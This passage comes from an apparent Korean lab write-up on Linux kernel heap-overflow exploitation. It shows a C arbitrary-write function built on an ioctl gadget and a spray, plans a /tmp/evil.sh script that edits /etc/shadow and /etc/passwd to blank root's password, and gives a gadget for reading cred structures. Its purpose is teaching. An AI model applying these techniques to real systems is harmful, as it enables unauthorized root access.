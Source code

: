 이제 이 주소에 위에서 발견한 aaw를 통해 실행 파일의 경로만 지정해주면 된다. aaw를 수행하는 함수는 다음과 같이 짤 수 있다.

```c
void aaw(unsigned long addr, unsigned int val) {
    // ioctl의 두 번째 인자가 rcx, 세 번째 인자가 rdx로 이동
    unsigned long *p = (unsigned long *)&buf;
    p[12] = mov_byref_rdx_rcx_ret;
    *(unsigned long *)&buf[0x418] = g_buf;

    write(fd, buf, 0x420);

    for (int i = 0; i < 100; i++)
        ioctl(spray[i], val, addr);
}
```

실행 파일은 `/tmp/evil.sh`로 설정했고, 이 스크립트 파일에서는 `/etc/shadow`와 `/etc/passwd`를 수정해 root의 비밀번호를 없엔다. 전체 익스플로잇 코드는 다음과 같다.

<details><summary>펼치기/접기</summary></details>

실행하면 비밀번호 없이 root로 su할 수 있다.

<p align="center">
    <img src="/assets/images/posts_img/kernel/kernel-exploit-tech/lk02-heap-overflow/win_2.png">
</p>

## 2-3. AAR - cred 구조체 조작

마찬가지로 위에서 봤던 `ioctl()` 실행 후 레지스터의 상태를 고려해 사용할 수 있는 몇 가지 가젯들을 더 살펴보면 아래와 같은 가젯을 찾을 수 있다.

```c
0xffffffff8118a285 : mov eax, dword ptr [rdx] ; ret
```

위 가젯을 통해 rdx를 원하는 주소로 설정하면 ioctl의 리턴값이 그 주소의 값이 된다. 다만 eax를 쓰기 때문에 4바이트씩만 읽을 수 있다.


[^1]: SLUB Allocator에 대한 내용은 추후 깊게 다뤄볼 예정이다. 여기서는 우선 같은 bin에 속한 청크일지라도 크기가 다를 수 있는 유저영역과 달리 `bin`과 비슷한 `kmalloc-N`에서는 같은 크기의 청크들이 들어있다는 것만 알면 된다. (예를 들어 `kmalloc-1024`에는 항상 크기가 1024인 청크들만 존재한다.)
[^2]: 구조체에서 0x18 오프셋에 있는 값(위에서 말한 커널 영역의 어딘가)들은 번갈아가면서 나온다. 예를 들어 `g_buf+0x418`에 `0x1111`이 적혀있다면 그 다음 구조체인 `g_buf+0x818`에서는 `0x2222`, 그 다음 구조체인 `g_buf+0x400*3+0x18`에는 다시 `0x1111`이 적혀 있는 식이다. 이들이 모두 커널 영역의 주소라는 사실을 쉽게 알 수 있다. 여기서는 짝수 번째에 나오는 값을 사용해 offset을 계산했다.